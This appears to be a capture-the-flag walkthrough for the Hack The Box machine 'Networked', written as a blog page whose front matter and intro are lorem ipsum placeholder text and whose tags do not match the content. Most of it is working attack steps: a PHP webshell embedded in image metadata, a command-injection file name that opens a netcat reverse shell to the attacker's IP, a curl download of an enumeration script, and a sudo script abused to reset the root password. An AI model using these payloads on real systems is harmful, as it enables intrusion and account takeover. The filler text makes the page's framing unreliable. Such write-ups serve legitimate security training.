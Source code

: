 ```yaml
---
layout: single
title: Networked - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-networked/networked_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-networked/networked_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV -O 10.10.10.146
   Open ports: 22, 80, 443

2. dirb http://10.10.10.146
   Detects /backup/ download .tar and extract the .php-files

3. Upload a file http://10.10.10.146/upload.php
   Upload.php shows;
   - the uploaded file will change name (ip_address.png ex. 10_10_14_28.png)
   - must be .jpg, .jpeg, .png or .gif
   - size must be smaller than 60000 byte
   - successful upload will be moved to /var/www/html/uploads/ (http://10.10.10.146/uploads/10_10_14_28.png)

   Lib.php shows:
   - mime type will be double checked to pervent mime-switching through burp

   Create a webshell using exiftoool:
   exiftool -DocumentName="<h1>Player Three Has Entered The Game<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.png
   Rename the file to .php.png to force php execution: mv image.png webshell.php.png

4. Enum box through webshell
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=whoami   (apache)
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=ls%20-al%20/home/guly/

   total 28
   drwxr-xr-x. 2 guly guly 159 Jul  9 13:40 .
   drwxr-xr-x. 3 root root  18 Jul  2 13:27 ..
   lrwxrwxrwx. 1 root root   9 Jul  2 13:35 .bash_history -> /dev/null
   -rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
   -rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
   -rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
   -rw-------  1 guly guly 639 Jul  9 13:40 .viminfo
   -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
   -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
   -r--------. 1 guly guly  33 Oct 30  2018 user.txt

   We don't have priv to read user.txt yet, need to escalate.

5. Exploiting check_attack.php
   check_attack.php has a cronjob that will remove new files from /var/www/html/uploads, using the syntax "rm -f /var/www/html/uploads/".
   Exploit this by creating reverse bash shell starting the name with ;
   (touch /var/www/html/uploads/";nc -e /bin/sh 10.10.14.15 4488")
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=touch%20/var/www/html/uploads/%22;nc%20-e%20/bin/sh%2010.10.14.15%204488%22

6. Start netcat and wait for the cronjob to trigger your reverse shell
   root@p3:/opt/htb/machines/networked# nc -lnvp 4488
   listening on [any] 4488 ...
   connect to [10.10.14.15] from (UNKNOWN) [10.10.10.146] 36284

   ls
   check_attack.php
   crontab.guly
   user.txt

   whoami
   guly

   cat user.txt
   526****************

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Upgrade rev shell (tty0) to a better one for ease of use and better information.
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

2. Download lse.sh to the victim and scan for vulns. wget is unable so we use curl instead
    root@p3:/opt/scanners/linux# python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

    [guly@networked shm]$ curl http://10.10.14.15:8080/lse.sh --output lse.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 31737  100 31737    0     0   292k      0 --:--:-- --:--:-- --:--:--  295k
    [guly@networked shm]$ ls -al
    total 32
    drwxrwxrwt  2 root root    60 Sep 20 14:54 .
    drwxr-xr-x 20 root root  3200 Sep 19 21:01 ..
    -rw-rw-r--  1 guly guly 31737 Sep 20 14:54 lse.sh

3. Give +x and scan the system
    chmod +x lse.sh
    ./lse.sh -l1

4. The script changename.sh is executable by gully and has root privs.
    User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

5. Looking in the script, we can see that it only accepts input according to the regexp:
    regexp="^[a-zA-Z0-9_\ /-]+$"

      Looking at the regexp we are only allowed to input a-z, 0-9, "-" and " ".
      Use https://regex101.com/ to test acceptable inputs

6. Run the script and change the root password.
    [guly@networked sbin]$ sudo ./changename.sh
    interface NAME:
    sudo passwd
    interface PROXY_METHOD:
    asd
    interface BROWSER_ONLY:
    asd
    interface BOOTPROTO:
    asd
    Changing password for user root.
    New password:
    Retype new password:
    passwd: all authentication tokens updated successfully.
    Changing password for user root.

    [guly@networked sbin]$ su
    Password:

    [root@networked sbin]# whoami
    root

    [root@networked sbin]# cat /root/root.txt
    0a8*****************************

